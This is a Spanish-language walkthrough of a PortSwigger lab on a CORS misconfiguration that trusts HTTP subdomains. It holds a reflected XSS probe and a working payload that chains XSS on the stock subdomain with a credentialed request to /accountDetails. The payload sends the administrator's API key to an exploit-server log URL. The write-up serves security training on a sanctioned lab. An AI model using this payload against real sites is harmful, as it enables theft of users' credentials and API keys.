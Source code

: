```yaml
---
title: "CORS vulnerability with trusted insecure protocols"
description: "Laboratorio de Portswigger sobre CORS"
date: 2025-04-06 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CORS
tags:
  - Portswigger Labs
  - CORS
  - CORS vulnerability with trusted insecure protocols
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene una `configuración` de `Cross-Origin Resource Sharing (CORS)` insegura, debido a que `confía` en todos los `subdominios` sin importar el `protocolo`. Para `resolver` el `laboratorio`, debemos crear un `script` de `JavaScript` que use `Cross-Origin Resource Sharing (CORS)` para obtener la `clave API` del `administrador` y `subir` el `payload` a nuestro `servidor de explotación`. El `laboratorio` se considerará `resuelto` cuando `enviemos con éxito` la `clave API` del `administrador`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las siguientes credenciales `wiener:peter`

---

## Guía de CORS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de CORS` [https://justice-reaper.github.io/posts/CORS-Guide/](https://justice-reaper.github.io/posts/CORS-Guide/)

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CORS-Lab-3/image_1.png)

Si pulsamos en `View details` vemos que podemos `checkear` el `stock` del `producto` en diferentes `ciudades`

![](/assets/img/CORS-Lab-3/image_2.png)

Si pulsamos sobre `Check stock` nos `redirigirá` a `https://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=1&storeId=1` y nos `mostrará` el `stock` del `producto`

![](/assets/img/CORS-Lab-3/image_3.png)

Hacemos `click` sobre  `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CORS-Lab-3/image_4.png)

Vemos que podemos `cambiar` nuestro `email` y una clave `API`

![](/assets/img/CORS-Lab-3/image_5.png)

Si nos fijamos en la `petición` que se hace a `/accountDetails` cuando nos `logueamos`, veremos que el `servidor` nos `responde` con la cabecera `Access-Control-Allow-Credentials: true`. Esto `no lo hace vulnerable a CORS`, para que sea `vulnerable` tenemos que `ser capaces de controlar el origen de la petición`

![](/assets/img/CORS-Lab-3/image_6.png)

Para comprobar si podemos `manipular` el `origen` de la `petición` mandamos esta `petición` al `Repeater` y probamos a `añadir` las cabeceras `Origin: null` y `Origin: https://exploit-0a2f005e043492fb81bebfa3012e00eb.exploit-server.net/log`. En este caso `el servidor no nos deja manipular el origen`

![](/assets/img/CORS-Lab-3/image_7.png)

![](/assets/img/CORS-Lab-3/image_8.png)

Cuando `pulsamos` sobre `Check stock` vemos que la petición se hace desde un subdominio `https://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net`

![](/assets/img/CORS-Lab-3/image_9.png)

Si probamos a `insertar` este `dominio` como `origen` si que `funciona` porque `está en la whitelist`

![](/assets/img/CORS-Lab-3/image_10.png)

La pulsar sobre la función de `Check stock` nos `redirige` a  `http://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=1&storeId=1`, si `inyectamos código JavaScript` en este `parámetro` de la URL `http://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=<script>alert(3)</script>&storeId=1` veremos que es `vulnerable` a `XSS`

![](/assets/img/CORS-Lab-3/image_11.png)

Una vez comprobado que ese `dominio` es `vulnerable` a `XSS` y que está en la `whitelist`, nos dirigimos al `Exploit server` y `pegamos` este `payload`

```
<script> document.location="http://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ae60051047d925c815bc08500f00081.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='http://exploit-0a2f005e043492fb81bebfa3012e00eb.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```

![](/assets/img/CORS-Lab-3/image_12.png)

Pulsamos sobre `View exploit`, nos dirigimos al `Access log` y vemos que hemos obtenido `información` de nuestro `usuario`

![](/assets/img/CORS-Lab-3/image_13.png)

Una vez `comprobado` que `funciona`, pulsamos sobre `Deliver exploit to victim` y nos dirigimos al `Access log` nuevamente

![](/assets/img/CORS-Lab-3/image_14.png)

Copiamos la `cadena de texto` en el `Decoder` y la `URL decodeamos`

![](/assets/img/CORS-Lab-3/image_15.png)

Nos `copiamos` la `apiKey`, `pulsamos` sobre `Submit solution` y `completamos` el `laboratorio`

![](/assets/img/CORS-Lab-3/image_16.png)
